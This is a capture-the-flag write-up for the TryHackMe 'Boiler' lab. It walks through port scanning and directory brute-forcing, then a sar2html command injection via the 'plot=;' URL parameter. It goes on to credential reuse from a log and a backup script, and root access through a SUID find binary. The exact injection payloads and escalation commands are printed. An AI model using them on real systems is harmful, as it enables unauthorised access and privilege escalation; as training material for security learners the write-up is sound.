# **TryHackMe: Boiler CTF – Writeup**

Boiler CTF is a great machine that covers extensive web directory brute-forcing, exploiting unauthenticated Remote Code Execution in third-party web apps, pivoting between local user accounts, and escalating privileges via misconfigured SUID binaries.

---

## **1. Reconnaissance & Scanning**

I started the engagement with a thorough `nmap` scan to discover open ports and identify running services.

```bash
nmap -sV -T4 -p- -vv <TARGET_IP>
```

### **Scan Results:**

- **Port 21/tcp:** vsftpd 3.0.3 (FTP)
- **Port 80/tcp:** Apache httpd 2.4.18 (Ubuntu)
- **Port 10000/tcp:** MiniServ 1.930 (Webmin httpd)
- **Port 55007/tcp:** OpenSSH 7.2p2 Ubuntu (Notice the non-standard port!)

```bash
PORT      STATE SERVICE REASON         VERSION
21/tcp    open  ftp     syn-ack ttl 64 vsftpd 3.0.3
80/tcp    open  http    syn-ack ttl 64 Apache httpd 2.4.18 ((Ubuntu))
10000/tcp open  http    syn-ack ttl 64 MiniServ 1.930 (Webmin httpd)
55007/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### Ftp enumeration:



---

## **2. Web Enumeration**

Since port 80 was open, I kicked off `gobuster` to find hidden directories on the web server.

```bash
gobuster dir -u http://<TARGET_IP>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

This revealed a `/joomla` directory. Knowing it was a Joomla CMS installation, I ran a second layer of directory brute-forcing deeper inside the `/joomla` path, which eventually uncovered an interesting subfolder: `/_test`.

Navigating to `/_test`, I discovered that the system was running an application called **sar2html**.







---

## **3. Exploitation & Initial Access (RCE)**

I searched for known public exploits targeting **sar2html** and hit a match on Exploit-DB (EDB-ID: 47204) for **Sar2HTML 3.2.1 - Remote Command Execution**.





The exploit documentation stated that commands could be injected directly through the URL via the `plot` parameter using a semicolon (`;`):
`http://<TARGET_IP>/joomla/_test/index.php?plot=;<command>`

### **Executing Remote Commands:**

1. **Testing RCE:** I verified execution by running `whoami`, which confirmed I was running commands under the context of the `www-data` account.
    
    
    
2. **Enumerating the Server:** I listed the directory contents by targeting `plot=;ls` and found an option to view a `log.txt` file on the interface.
    
    
    
3. **Extracting Credentials:** I viewed the logs using `plot=;cat log.txt`. Tucked away inside the connection logs, I found valid SSH credentials exposed in plain text.
    
    
    

```
User: basterd
Password: superduperp@$$
```

Using the non-standard port discovered during my initial Nmap scan, I successfully established an SSH session:

```bash
ssh basterd@<TARGET_IP> -p 55007
```



---

## **4. Horizontal Movement (Pivoting to `stoner`)**

Once inside as `basterd`, I explored the filesystem to see what else was hosted on the box. I came across a backup script named `backup.sh`.

Reading the script contents revealed hardcoded credentials for another local user account:

```
USER=stoner
Password: superduperp@$$no1knows
```

I switched users to `stoner` using the newly found password:

```bash
su stoner
# Or via SSH directly
ssh stoner@<TARGET_IP> -p 55007
```

Checking `stoner`'s home directory with `ls -la`, I spotted a hidden file called `.secret`. Reading it gave me the first user flag!

```bash
cat ~/.secret
```



---

## **5. Privilege Escalation (Root Flag)**

To escalate to `root`, I started looking for common privilege escalation vectors. I ran a command to scan the system for any binaries with the **SUID (Set Owner User ID)** bit enabled:

```bash
find / -perm /4000 2>/dev/null
```



Among the standard binaries, `/usr/bin/find` stood out starkly. The `find` binary normally shouldn't run with root privileges for standard users. Because the SUID bit was misconfigured here, any command executed via `find`'s built-in execution flag (`-exec`) would run with full root authorities.

I used this capability to bypass permissions entirely and read the root flag securely stored in the administrator's home path:

```bash
/usr/bin/find . -exec cat /root/root.txt \\;
```

The system printed out the root flag, successfully completing the box!



---

## **Conclusion & Key Takeaways**

- **Deep Enumeration Matters:** Finding the hidden `/_test` directory nested inside Joomla was the critical pivot to finding the initial exploit.
- **Secure Code & Configurations:** Storing plain-text passwords inside logs or script backups (`backup.sh`) makes local pivoting trivial for an attacker.
- **Beware of Living-off-the-Land SUIDs:** Binaries like `find`, `less`, or `awk` should never have the SUID bit applied unless strictly necessary and locked down, as they allow trivial command execution environments.

